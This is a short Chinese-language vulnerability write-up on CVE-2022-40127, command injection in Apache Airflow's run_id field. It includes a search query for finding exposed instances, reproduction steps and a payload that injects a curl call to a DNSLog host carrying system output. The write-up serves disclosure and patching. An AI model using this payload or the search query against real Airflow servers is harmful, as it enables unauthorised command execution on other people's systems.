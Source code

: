 # Apache Airflow 远程代码执行漏洞 CVE-2022-40127

# Apache Airflow 远程代码执行漏洞 CVE-2022-40127

## 漏洞描述

Apache Airflow 是一个可编程，调度和监控的工作流平台，基于有向无环图（DAG），Airflow 可以定义一组有依赖的任务，按照依赖依次执行。

当攻击者可访问到 Apache Airflow 的后台，且环境中存在默认 Example Dags，则可构造恶意请求借助 run_id 执行任意命令。

## 漏洞影响

```
Airflow < 2.4.0
```

## 网络测绘

```
app="APACHE-Airflow"
```

## 漏洞复现

登录 Airflow，在任意 DAG 行，点击 Actions 列的三角符号，再点击“Trigger DAG w/ config”。

进入配置，在 Run id (Optional) 处输入 Payload：

```
{"lab":"\";curl `uname`.****.dnslog.pw;\""}
```

在 DNSLog 查看回显。

## 修复建议

官方已发布版本 2.4.3，可升级 Apache Airflow 版本到 2.4.0 或以上，或者停用默认 Dags。

